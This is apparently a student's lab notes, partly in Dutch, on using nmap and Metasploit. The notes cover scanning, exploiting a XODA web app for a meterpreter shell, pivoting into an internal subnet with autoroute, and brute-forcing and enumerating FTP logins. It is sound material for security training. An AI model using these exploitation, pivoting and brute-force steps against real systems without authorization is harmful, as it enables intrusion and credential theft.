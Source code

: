 
#### Port scanning & Enumeration with nmap 

- Command: nmap -Pn -sV -O ip
- output scan results into xml file format:  -oX \[name file] windows_server_2012 
- nmap -h to see other commands that can be used for output 

Importing scans into msfconsole  (start msfconsole
- command: service PostgreSQL start 
- check the files - command: db_import /root/ 
- import the file - command: db_import /root/filename
- confirm that it is important - command: hosts 
- print services for hosts that you imported - command: services 
- initiate nmap scan from within msfconsole and save results in database - 
	  - Create new workspace - command: workspace -a nmap_msf 
	  - command: db_nmap -Pn -sV -O ip 
	  - list out the hosts and services 


## Enumeration 


###### Port scanning / pivoting 

Auxiliary modules are used to perform functionality like scanning, discovery and fuzzing. We can use it to perform TCP and UDP port scanning as well as enumerating information from services FTP, SSH, HTTP 
	Auxiliary modules can be used during information gathering phase 
Waarom auxiliary modules gebruiken als je ook met nmap kunt scannen? Auxiliary modules zijn erg handig voor **post exploitation phase:**   wanneer je een target hebt geexploit kom je erachter dat deze target onderdeel is van groot netwerk dan heb je nog meer targets die je kunt exploiten through initial exploited server. De auxiliary modules zijn dan handig om verder het interne/private netwerk te scannen. Dit kan niet met nmap omdat je dan nmap moet importeren op geexploite target host of OS. 

![[Pasted image 20230720154107.png]]


- start the postgresql service so we can interact with metasploit database 
- start msfconsole 
- check the status of the database, command: db_status 
- set up workspace, command: workspace -a Port_scan 
- use the auxiliary tcp portscan 
- from the auxiliary module run  curl to download homepage of web application, command: curl ip 
	- search for exploit modules for xoda webapplication -> xoda_file_upload
		- set up rhosts and set targetui /  
		  (/ because the root of the webserver)
	- exploit will set up a meterpreter session 
	- sysinfo will tell us more about the target system 
	- now we want to do port scan on victim two but first we need to find out the private network ip address (subnet) that this victim system is part of so we can target another victim within the network
		- open up a shell session: span a bash session, command: /bin/bash -i
		  ![[Pasted image 20230721142859.png]]
		- ifconfig 
		- get out of bash: terminate shell 
		- back in meterpreter,  command: run autoroute -s ip
				   "run autoroute -s ip" is used to configure a route to a specific subnet over a Meterpreter session. De "autoroute" module in Metasploit wordt gebruikt om de routetabel van het gecompromitteerde systeem te manipuleren, zodat verkeer dat bestemd is voor een specifiek IP-subnet wordt omgeleid via het gecompromitteerde host. Deze techniek is handig wanneer je verkeer wilt omleiden via het gecompromitteerde systeem om toegang te krijgen tot andere interne netwerken.
		- put the meterpreter session in the background, command: background 
		- search portscan 
		- use the tcp portscan 
		- set rhost to the ip in eth1 (ip of the second system)
			because you already added the route we will run the portscan through the first victim. 
	This is how you get a pivot point 
	UDP module: 
	- back 
	- search udp_sweep 

	---- lab ---   
Commands
- ip addr  -  me: 192.70.225.2 and target: 192.70.225.3 
- sudo service postgresql start  && msfconsole -q
- workspace -a Port_scan_target
- search tcp portscan 
- run aux/scanner/portscan/tcp on target
- use exploit(unix/webapp/xoda_file_upload 
- sets targeturi / 
- sysinfo 
- shell
- /bin/bash -i 
- ifconfig
- exit 
- Add the route to metasploit's routing table, command: run autoroute -s 192.135.243.2 
- background
- search portscan 


### FTP Enumeration

Use: file sharing between server and clients, transferring files to directory or web server. FTP access is via username and password. We can use multiple auxiliary modules to enumerate information as well as brute-force attacks on targets running an FTP server. Improper configurated FTP server can allow anonymous logon.  

Commands enumerating ftp  192.104.50.2

1) FTP portscan and ftp version scan (enumeration)
- service postgresql start 
- start up msfconsole 
- check if target system has ftp server running
	- create workspace, command: workspace -a ftp_enum 
	- search portscan -> use aux/scan/portscan/tcp 
	- when you have to many search results use, command: search type: auxiliary name: ftp 
	- use aux/scanner/ftp/ftp_version (this will give us version of ftp and the ftp banner which is usefull information because we can use it to identify vulnerabilities for that version. e.g. search proftpd)

2) ftp bruteforce 
- search for module: search aux ftp (search for aux/scanner/ftp/ftp_login)
- set the user file and pasword file:
	- User_FILE -> /usr/share/metasploit-framework/data/wordlists/common_users.txt 
	- PASS_FILE ->  /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
- when you have found a password, you can login within  metasploit session, command:  ftp target ip. When you get a service not available error it means that the bruteforce has overwhelmed the service and that there are processes in places for example ddos protection that can make the service unavailable. You have to wait a few minutes. 
- exit the msfconsole
	- command: ftp target 
	- give username and password 
	- ls 
	- get {file}
	- exit 
	- cat {file}
  
3) anonymous login (access remote and anonymously)
   - search type: aux name:ftp   (we are looking for aux/scanner/ftp/anonymous)
   



